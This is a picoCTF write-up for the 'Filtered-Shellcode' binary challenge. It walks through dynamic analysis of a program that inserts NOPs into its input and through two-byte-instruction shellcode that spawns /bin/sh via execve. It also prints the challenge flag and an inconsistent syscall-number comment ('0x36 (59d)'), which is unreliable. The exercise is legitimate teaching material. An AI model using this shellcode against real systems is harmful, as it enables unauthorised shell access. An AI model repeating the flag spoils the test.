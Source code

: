 # Filtered-Shellcode

## Introduction

> A program that just runs the code you give it? That seems kinda boring.

The author of the program is MADSTACKS for picoCTF. We are given the following:

`fun` - i386 32-bit executable.
`nc mercury.picoctf.net 28494` - The address and port of the remote server.

## Information Gathering

### Hint #1

> Take a look at the calling convention and see how you might be able to setup
all the registers.

We know that i386 has a calling convention that passes input to functions via
the stack. I think what this hint is referring to is that when we call a
syscall, we first need to setup the registers to pass the input. Assuming our
goal is to pop a shell and then cat the flag, our registers should look like
this:

```txt
$eax: syscall NR        /* sycall for execve -> 0x36 (59d) */
$ebx: first argument    /* *filename         -> /bin/sh */
$ecx: second argument   /* *argv[]           -> 0       */
$edx: third argument    /* *envp[]           -> junk    */
```

### Static

We decompiled the program with Ghidra. The program takes up to 1000 bytes,
transforms them in some manner, and then executes the code inside the function
`execute`. It appears to place two `nop` instructions (`\x90`) between every
two bytes of input we give it. It looks like a pain to reverse so let's see if
some dynamic analysis can help us.

### Dynamic

Examining the program with GDB (br \* 0x080486a3 and br \* 0x080485c9), the
following input got transformed as such:

"abcdefghijklmnopqrstuvwxyz" ->
"ab\x90\x90cd\x90\x90ef\x90\x90gh\x90\x90ij\x90\x90kl\x90\x90mn\x90\x90op\x90
\x90qr\x90\x90st\x90\x90uv\x90\x90wx\x90\x90yz"

The latter bytes are the ones that we will be directly executing. If this
transform pattern holds for all 1000 bytes that we can input it means that
we'll be limited to two character opcodes. Before making life complicated,
let's test this out with the function `test_pattern` inside our solution. The
Python GDB API is awesome and really poorly documented at the same time. Using
the API probably took longer to figure out than creating the shellcode did.
Indeed, we found that the pattern continued throughout the entire input.

## Strategy

Alright, so we need to create shellcode that only occupies two bytes at a time.
My mentor @jocular recommending taking a look a the x86 shift instructions and
8-bit registers. It took awhile to nail down what was going on, but the main
idea is to load `/bin/sh` one byte at a time into `$al` and `$ah` and then
shift them into the correct positions inside of `$eax`. Then we can push the
string `/bin/sh` onto the stack and call `execve`. And it works!

```asm
/* Move /sh to $eax. */
xor eax, eax
mov ah, 0x00
mov al, 'h'
shl eax, 1
shl eax, 1
shl eax, 1
shl eax, 1
shl eax, 1
shl eax, 1
shl eax, 1
shl eax, 1
shl eax, 1
shl eax, 1
shl eax, 1
shl eax, 1
shl eax, 1
shl eax, 1
shl eax, 1
shl eax, 1
mov ah, 's'
mov al, '/'

/* Push $eax ('/sh') onto the stack. */
push eax
nop /* Needed to maintain alignment since push $eax is only one byte. */

/* Move /bin to $eax. */
mov ah, 'n'
mov al, 'i'
shl eax, 1
shl eax, 1
shl eax, 1
shl eax, 1
shl eax, 1
shl eax, 1
shl eax, 1
shl eax, 1
shl eax, 1
shl eax, 1
shl eax, 1
shl eax, 1
shl eax, 1
shl eax, 1
shl eax, 1
shl eax, 1
mov ah, 'b'
mov al, '/'

/* Push $eax ('/bin') onto the stack. */
push eax
nop /* Needed to maintain alignment since push $eax is only one byte. */

/* x86 expects arg0 (the file to be executed) to be in $ebx. This should be
** a pointer to the string that should be executed. Our string '/bin/sh'
** resides on the stack so we can simply move $esp into $ebx. */
mov ebx, esp

/* Set up arg1 (the ** argv array). Since there are no arguments, we can
** pass a NULL byte. */
xor ecx, ecx

/* Set up arg2 (the ** envp). Since there are no environment variables, we
** can pass a NULL byte. */
xor edx, edx

/* Move the syscall number for execve into $eax. */
xor eax, eax
mov al, {EXECVE_X86}

/* Call the syscall. */
sysenter
```

## The Solution

You should be able to run the solution like so:

```python
$ python3 ./solve.py REMOTE
[+] The flag is: picoCTF{th4t_w4s_fun_384f7c52706306d0}
[+] Time: 0.15123486518859863
```
